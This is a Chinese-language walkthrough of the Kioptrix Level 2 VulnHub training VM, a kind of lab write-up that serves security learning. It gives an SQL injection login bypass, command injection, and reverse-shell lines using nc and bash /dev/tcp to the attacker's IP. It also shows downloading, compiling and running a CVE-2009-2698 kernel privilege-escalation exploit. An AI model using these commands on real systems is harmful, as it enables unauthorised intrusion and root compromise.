



# Kioptrix2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

**Description**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

Source: http://www.kioptrix.com/blog/?page_id=135

Source: http://www.kioptrix.com/blog/?p=49

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

**知识点**
- SQL 注入
- 命令执行
- CVE-2009-2698

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.141.145` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.145
```



开放端口数蛮多的,SSH、http、https、Mysql,还有一个较为少见的 631，运行的 CUPS 服务，CUPS 也有许多漏洞

这里 nmap 扫描 mysql 提示未授权,不过我测试并不能连接,从 web 先入手

---

# 中期-漏洞利用


看着就像有 SQL 注入的样子,随便试了下注入就进去了
```
账号 随便
密码 1' or '1'='1
```


看起来有个命令注入,简单尝试发现没有过滤
```
;ip a
```



下面直接回弹 shell，kali 监听
```
nc -lvp 4444
```

执行命令
```
;nc -nv 192.168.141.134 4444 -e /bin/bash
```
没成功,估计没有 nc,试试直接 bash 回弹
```
;bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```


回弹成功,果然没有 nc 程序,下面测试提权

---

# 后期-提权

简单收集下信息
```
cat /etc/*-release
uname -a
```


centos 4.5,可以试试 CVE-2009-2698，https://www.exploit-db.com/exploits/9542

这里直接靶机下载或kali下载再传上去都行,自选

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/9542
mv 9542 9542.c
python -m SimpleHTTPServer 8080
```

靶机下载 kali 上的 poc
```bash
cd /tmp
wget 192.168.141.134:8080/9542.c
gcc 9542.c
ls
./a.out
```


提权成功,感谢 Kioptrix Team 制作靶机
